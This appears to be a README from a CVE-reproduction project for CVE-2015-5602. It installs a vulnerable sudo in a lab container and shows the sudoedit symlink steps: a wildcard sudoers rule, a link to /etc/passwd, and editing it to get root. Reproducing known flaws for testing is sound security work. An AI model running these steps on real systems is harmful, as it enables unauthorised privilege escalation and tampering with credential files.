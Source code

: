 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python decret.py --number 2015-5602 --release bullseye --directory sudoedit-2015 --selenium
# Wrong version by default, the next instruction is to install the vulnerable one
root@cve-2015-5602:/# apt-get install -y --allow-downgrades --allow-unauthenticated sudo=1.8.10p3-1+deb8u2
```

### Simple testing method

```shell
echo "toto ALL=NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su toto
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/toto/demo/test.txt # Should be working
```
You can edit the file and then get root access.